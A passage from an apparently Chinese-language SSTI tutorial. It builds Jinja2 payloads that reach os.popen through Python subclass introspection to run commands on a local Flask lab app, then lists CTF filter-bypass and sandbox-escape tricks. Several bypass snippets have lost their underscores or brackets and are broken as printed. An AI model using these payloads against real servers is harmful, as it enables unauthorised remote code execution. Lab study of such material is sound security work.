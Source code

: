 接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法。这里开始我们不再用pycharm打印了，直接利用上面我们已经搭建好的漏洞环境来进行测试。通过我们在如上这么多类中一个一个查找，找到我们可利用的类，这里举例一种。<class 'os._wrap_close'>，os命令相信你看到就感觉很亲切。我们正是要从这个类中寻找我们可利用的方法，通过大概猜测找到是第119个类，0也对应一个类，所以这里写[118]。 
```
http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118]} }
```
![flask os wrap close](flask_os_wrap_close.png)

这个时候我们便可以利用.init.globals来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数。
```
http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__} }
```

此时我们可以在网页上看到各种各样的参数方法函数。我们找其中一个可利用的function popen，在python2中可找file读取文件，很多可利用方法，详情可百度了解下。
```
http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()} }
```
![popen read](popen_read.png)
此时便可以看到命令已经执行。如果是在linux系统下便可以执行其他命令。此时我们已经成功得到权限。进下来我们将进一步简单讨论如何进行沙箱逃逸。

## 5.3 ctf中的一些绕过tips
没什么系统思路。就是不断挖掘类研究官方文档以及各种能够利用的姿势。这里从最简单的绕过说起。

1. 过滤[]等括号
   `使用gititem绕过。如原poc {{"".class.bases[0]} }`

   `绕过后{{"".class.bases.getitem(0)} }`

2. 过滤了subclasses，拼凑法
   `原poc{{"".class.bases[0].subclasses()} }`

   `绕过 {{"".class.bases[0]'subcla'+'sses'} }`

3. 过滤class
   使用session

  ` poc {{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]} }`

   多个bases[0]是因为一直在向上找object类。使用mro就会很方便
   
   ```
   {{session['__cla'+'ss__'].__mro__[12]} }
   ```
   或者
   ```
   request['__cl'+'ass__'].__mro__[12]} }
   ```

4. timeit姿势

   可以学习一下 2017 swpu-ctf的一道沙盒python题，

   这里不详说了，博大精深，我只意会一二。

   ```
   import timeit
   timeit.timeit("__import__('os').system('dir')",number=1)

   import platform
   print platform.popen('dir').read()
   ```
